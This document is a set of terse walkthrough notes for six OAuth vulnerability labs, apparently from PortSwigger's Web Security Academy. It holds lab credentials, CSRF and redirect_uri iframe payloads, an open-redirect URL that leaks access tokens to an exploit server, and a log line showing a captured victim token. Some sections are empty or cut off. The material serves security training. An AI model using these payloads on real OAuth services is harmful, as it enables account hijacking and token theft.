

# Oauth Vulnerabilities - Walkthroughs

## Lab 01: Authentication bypass via OAuth implicit flow

## Vulnerability
OAuth implementation.

## Goal
Exploit the implementation flaw and log into Carlos's account.

Carlos's email: carlos@carlos-montoya.net.

## Credentials
`wiener:peter`

## Analysis

---

## Lab 02: SSRF via OpenID dynamic client registration

## Vulnerability
OAuth service registration endpoint.

## Goal
To access the admin credentials endpoint and steal the secret access key.

## Credentials
`wiener:peter`

## Analysis

https://oauth-0a9600da04a45e2e809b1fae02b40051.oauth-server.net/.well-known/openid-configuration

https://oauth-0a9600da04a45e2e809b1fae02b40051.oauth-server.net/reg

---

## Lab 03: Forced OAuth profile linking

## Vulnerability
OAuth implementation for profile linking.

## Goal
Exploit the implementation flaw to perform CSRF attack.

Carlos's email: carlos@carlos-montoya.net.

Creds:
Blog website account - wiener:peter
Social media profile - peter.wiener:hotdog

## Analysis

<iframe src="https://0ad8000c041dc558806d032100aa00b2.web-security-academy.net/oauth-linking?code=U3NI9IPe5VVQ1Z420BH6CkW_dZeMk6T4XdYfh-dY9q8"?></iframe>

---

## Lab 04: OAuth account hijacking via redirect_uri

## Vulnerability
OAuth implementation.

## Goal
Exploit the implementation flaw to steal the authorization code of the admin user.

Creds - wiener:peter

## Analysis

<iframe src="https://oauth-0aac00c303b04ae381c64bbe028f00b3.oauth-server.net/auth?client_id=szp5oknc38eyjict6qzos&redirect_uri=https://exploit-0a6500fc03dd4a9381204c98012300ef.exploit-server.net/exploit&response_type=code&scope=openid%20profile%20email"></iframe>

https://0aca004003684a4181ac4d240032004f.web-security-academy.net/oauth-callback?code=BgH9jofP6vbEM9psYiHpqIxyahEAEm23MPFhXh6UE0z

---

## Lab 05: Stealing OAuth access tokens via an open redirect

## Vulnerability
OAuth implementation.

## Goal
Exploit an open redirect and steal the admin's access token.

## Credentials
`wiener:peter`

## Analysis

https://oauth-0a38006904e8856e80291fc6022d005d.oauth-server.net/auth?client_id=vhsektvuyrxdeolacqsgc&redirect_uri=https://0a78008d04e685ac8004210c009200c2.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ac400b304f1853f805f2099014a00c5.exploit-server.net/exploit&response_type=token&nonce=-2115719464&scope=openid%20profile%20email

---

## Lab 06: Stealing OAuth access tokens via a proxy page

## Vulnerability
OAuth implementation.

## Goal
Exploit the secondary vulnerability and steal the admin's access token.

## Credentials
`wiener:peter`

## Analysis

<iframe src="https://oauth-0ae200e40462a6e49c4338ee0282007c.oauth-server.net/auth?client_id=lj4dirktui466zd7esdb6&redirect_uri=https://0add00ab04e2a68f9cd73a6100de00a4.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=2131211617&scope=openid%20profile%20email"></iframe>

a6100de00a4.web-security-academy.net%2Fpost%2Fcomment%2Fcomment-form%23access_token%3Dhtb-cn-Pyjn2e67CCD_rvEw1eHqh0cnvA1UU9lI3F0t%26expires_in%3D3600%26token_type%3DBearer%26scope%3Dopenid%2520profile%2520email HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36

---

